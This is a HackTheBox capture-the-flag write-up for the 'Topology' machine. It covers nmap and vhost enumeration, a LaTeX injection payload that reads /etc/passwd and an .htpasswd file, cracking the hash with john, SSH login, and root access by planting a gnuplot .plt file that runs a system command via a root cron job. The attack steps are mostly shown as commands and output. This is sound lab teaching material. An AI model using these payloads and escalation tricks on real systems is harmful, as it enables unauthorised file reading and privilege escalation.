





# Topology - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `21`, `22`, and `3000`.

***User***: We discovered the `LaTeX Equation Generator` website at http://latex.topology.htb and also identified the `dev.topology.htb` subdomain through the use of `gobuster`. The subdomain required authentication for access. By employing LaTeX's `lstinputlisting` functionality, we successfully read the contents of the `/var/www/dev/.htpasswd` file. This revealed the hashed password associated with the user `vdaisley`. Subsequently, we cracked the password using the `john` tool, enabling us to log in via SSH and obtain the user flag.


***Root***: After executing `pspy`, we discovered that the `root` user executes `.plt` files using `gnuplot`. To obtain the `root` flag, we created our own `.plt` file, which writes the flag to the `/tmp` directory.


## Topology Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Topology]
└──╼ $ nmap -sV -sC -oA nmap/Topology 10.10.11.217
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:44 IDT
Nmap scan report for 10.10.11.217
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:



As observed, we have accessed the LaTeX Equation Generator at http://latex.topology.htb/equation.php.

Upon examination, it is evident that the domain used is `topology.htb`. After conducting a subdomain scan, we discovered an additional subdomain, namely `dev.topology.htb`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Topology]
└──╼ $ gobuster vhost -u topology.htb -w ./subdomains-top1milion.txt -t 80 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://topology.htb
[+] Method:       GET
[+] Threads:      80
[+] Wordlist:     ./subdomains-top1milion.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/07/07 14:46:40 Starting gobuster in VHOST enumeration mode
===============================================================
Found: stats.topology.htb (Status: 200) [Size: 108]
Found: dev.topology.htb (Status: 401) [Size: 463]  
```

Upon navigating to http://dev.topology.htb, the following page is displayed:


Returning to the http://latex.topology.htb/equation.php website, we encounter the subsequent page:


We can discover numerous injection payloads for LaTeX on the GitHub repository: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection. Among them, one enables us to read file content using the command `$\lstinputlisting{/etc/passwd}$`. Let's attempt it:



And we get:




On the `dev.topology.htb` website, we are prompted to enter credentials, indicating the possibility of the presence of an `.htpasswd` file. We can attempt to read its contents using the command `$\lstinputlisting{/var/www/dev/.htpasswd}$`:


We have obtained the following hash: `vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`. In order to crack it using the tool `john`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Topology]
└──╼ $ john --wordlist=./rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)
1g 0:00:00:09 DONE (2023-07-07 16:10) 0.1002g/s 99770p/s 99770c/s 99770C/s calebb07..caitlyn04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

After successfully cracking the password as `calculus20`, we accessed http://dev.topology.htb using vdaisley's credentials, which resulted in the following page:


These credentials can be used for SSH login:
```console
┌─[evyatar9@parrot]─[/hackthebox/Topology]
└──╼ $ ssh vdaisley@topology.htb 
The authenticity of host 'topology.htb (10.10.11.217)' can't be established.
ECDSA key fingerprint is SHA256:5tLmWMh6Ze1MGe5hPzEfwiS7kn72q6McZFOeVVHYdIs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'topology.htb,10.10.11.217' (ECDSA) to the list of known hosts.
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ cat user.txt
3215b800f6b830eeb2f75212b3ffef71
````

And we get the user flag `3215b800f6b830eeb2f75212b3ffef71`.

### Root

By running [pspy](https://github.com/DominicBreuker/pspy) we observed the following processes running under the `root` user:
```console
vdaisley@topology:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
...
2023/07/08 16:16:01 CMD: UID=0    PID=17921  | /usr/sbin/CRON -f 
2023/07/08 16:16:01 CMD: UID=0    PID=17920  | /usr/sbin/CRON -f 
2023/07/08 16:16:01 CMD: UID=0    PID=17925  | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/08 16:16:01 CMD: UID=0    PID=17924  | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/07/08 16:16:01 CMD: UID=0    PID=17923  | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/07/08 16:16:01 CMD: UID=0    PID=17922  | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/07/08 16:16:01 CMD: UID=0    PID=17934  | sed s/,//g 
2023/07/08 16:16:01 CMD: UID=0    PID=17933  | cut -d  -f 3 
2023/07/08 16:16:01 CMD: UID=???  PID=17932  | ???
2023/07/08 16:16:01 CMD: UID=???  PID=17931  | ???
2023/07/08 16:16:01 CMD: UID=0    PID=17926  | gnuplot /opt/gnuplot/loadplot.plt 
2023/07/08 16:16:01 CMD: UID=0    PID=17935  | 
2023/07/08 16:16:01 CMD: UID=0    PID=17937  | gnuplot /opt/gnuplot/networkplot.plt 
```

We noticed that the root user executes [gnuplot](http://www.gnuplot.info/) files located in the `/opt/gnuplot/` directory:
```console
vdaisley@topology:/opt$ ls -ltra /opt/
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
drwx-wx-wx  2 root root 4096 Jul  8 16:18 gnuplot
```

Based on our observation, it is evident that we have write permissions for the gnuplot directory.

Gnuplot is a powerful command-line tool utilized for generating 2D and 3D plots of mathematical functions and data. It finds extensive application in scientific and technical domains for the purpose of data visualization and analysis.

According to the provided [reference](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/), we can leverage the system command to execute commands within a `.plt` file for privilege escalation. Specifically, we can run the command `/opt/gnuplot/reverse.plt` to obtain the `root` flag:
```console
vdaisley@topology:/opt$ cat /opt/gnuplot/reverse.plt
system "cat /root/root.txt > /tmp/flag"
```

And we get the flag `7d5860584ad753e374c1404a9d53bccd`:
```console
vdaisley@topology:/opt$ cat /tmp/flag 
7d5860584ad753e374c1404a9d53bccd
```
